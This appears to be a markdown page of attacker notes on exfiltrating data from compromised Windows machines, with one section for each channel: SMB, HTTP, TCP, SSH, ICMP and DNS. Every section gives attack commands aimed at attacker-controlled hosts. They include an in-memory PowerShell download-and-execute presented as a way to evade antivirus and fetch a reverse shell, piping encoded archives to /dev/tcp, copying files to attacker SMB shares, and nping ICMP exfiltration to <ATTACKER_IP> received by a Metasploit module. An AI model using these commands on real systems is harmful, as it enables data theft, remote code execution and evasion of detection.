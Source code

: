 ```yaml
---
title: Windows data exfiltrator notes
---
```


- [1. Simple file transfer](#1-simple-file-transfer)
  - [1.1. SMB (two ways)](#11-smb-two-ways)
  - [1.2. Evil-WinRM (two ways)](#12-evil-winrm-two-ways)
  - [1.3. HTTP (attacker -\> victim)](#13-http-attacker---victim)
- [2. TCP socket](#2-tcp-socket)
- [3. SSH protocol](#3-ssh-protocol)
- [4. HTTP(S) protocol](#4-https-protocol)
- [5. ICMP](#5-icmp)
- [6. DNS](#6-dns)

## 1. Simple file transfer

[Great post about Windows file transfers for hackers](https://juggernaut-sec.com/windows-file-transfers-for-hackers/).

### 1.1. SMB (two ways)
Using local SMB server (running on the attacker's OS) an attacker is able transfer files in both ways:

```bash
# Run SMB server
impacket-smbserver -smb2support -username <username> -password <password> <share-name> <share-path>
```

```powershell
# Transfer file from the victim to the attacker
copy <local-file> \\<attacker-ip>\<share>\

# Transfer file from the attacker to the victim
copy \\<attacker-ip>\<share>\<file> <local-path>
```

### 1.2. Evil-WinRM (two ways)


### 1.3. HTTP (attacker -> victim)
Attacker:

```bash
python -m http.server <PORT>
```

Victim:

```powershell
# Download and save
Invoke-WebRequest <URL> -OutFile <FILE>
```

There's a method to download a PS script and run it without touching the disk (directly from memory). It's used to avoid antiviruses and so on. It can be used to get a reverse-shell connection ([reverse shell Powershell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)).

```powershell
iex (New-Object Net.WebClient).DownloadString("<URL_TO_SCRIPT.ps1>")
```

## 2. TCP socket
This kind of exfiltration is not recommended in a well-secured environments. Non-standard TCP protocol can be detected easily.

Listener (attacker):

```bash
# Receive data and save to file
nc -lvnp <PORT> > /path/to/file

# Decode and decompress data
dd conv=ascii if=<FILE> | base64 -d > file.tar
tar xvf file.tar
```

Sender (victim):

```bash
# Send compressed and encoded data
tar zcf - <DIR> | base64 | dd conv=ebcdic > /dev/tcp/<IP>/<PORT>
```

## 3. SSH protocol
SSH establishes a secure channel because all transmitted data is encrypted. It's not possible to sniff the unencrypted content.

Sender (victim):

```bash
# Send a file via ssh
tar cf - <DIR> | ssh <HOST> "cd /tmp/; tar xpf -"
```

## 4. HTTP(S) protocol
Exfiltration data through the HTTP protocol is one of the best options because it is hard to distinguish between legitimate and malicious HTTP traffic. Additionally, a POST request data is not stored in log files, cache or any other history.

## 5. ICMP
ICMP packet has optional `data` field where the sensitive data can be stored and transmitted.

Listener (attacker): `Metasploit` framework has built-in module to capture malicious ICMP sequence.

```bash
> use auxiliary/server/icmp_exfil
# Omit outgoing ICMP packets
> set BPF_FILTER icmp and not src <ATTACKER_IP>
> set INTERFACE eth0
> run
```

Sender (victim): we can use the `nping` tool which part of the Nmap package. The ICMP data sequence for the Nmap listener is initialized sending the `BOF<filename>` string.

```bash
# Initialize the ICMP sequence
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "BOFfile.txt"
# Send data
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "<DATA>"
# End of the sequence
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "EOF"
```

## 6. DNS
DNS is not a transport protocol and it's basis of the entire internet so it's not usually monitored. Fully Qualified Domain Name (FQDN) can be at most 255 characters long (including `.` separators). The subdomain part must not exceed 63 characters. The trick is to transfer data using the subdomain part to the controlled (malicious) DNS server.

On the malicious DNS server capture any incoming UDP/53 packet:

```bash
tcpdump -i eth0 udp port 53 -v
```
